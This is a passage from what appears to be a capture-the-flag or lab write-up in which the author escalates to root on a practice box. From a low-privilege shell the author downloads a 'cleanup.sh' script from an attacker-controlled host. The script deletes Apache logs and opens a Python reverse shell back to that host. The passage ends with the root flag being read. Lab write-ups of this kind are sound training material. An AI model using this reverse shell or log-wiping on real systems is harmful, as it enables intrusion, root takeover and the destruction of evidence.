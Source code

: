 Then fetch the script and write it to the target file within the victim box:

```
www-data@law:/var/www$ wget -q -O- http://192.168.45.180/cleanup.sh > cleanup.sh                     
<q -O- http://192.168.45.180/cleanup.sh > cleanup.sh
```

I verify it looks good:

```
www-data@law:/var/www$ cat cleanup.sh
cat cleanup.sh
#!/bin/bash

rm -rf /var/log/apache2/error.log
rm -rf /var/log/apache2/access.log

python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.180",4100));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("/bin/bash")'
```

Our python server in kali also shows the download come in

```
┌──(kali㉿kali)-[~]
└─$ python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
192.168.211.190 - - [06/Mar/2024 08:44:22] "GET /cleanup.sh HTTP/1.1" 200 -
```

...and within 30 seconds or so we have a shell!

```
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4100              
listening on [any] 4100 ...
connect to [192.168.45.180] from (UNKNOWN) [192.168.211.190] 51792
root@law:~# whoami
whoami
root
```

And we find our flag where we expect to find it:

```
root@law:~# cd /root
cd /root
root@law:~# ls -la | grep proof
ls -la | grep proof
-rw-r--r--  1 root root   33 Mar  6 11:21 proof.txt
root@law:~# cat proof.txt
cat proof.txt
295be6ea6387915a63a71764444128da
```

We are done!

---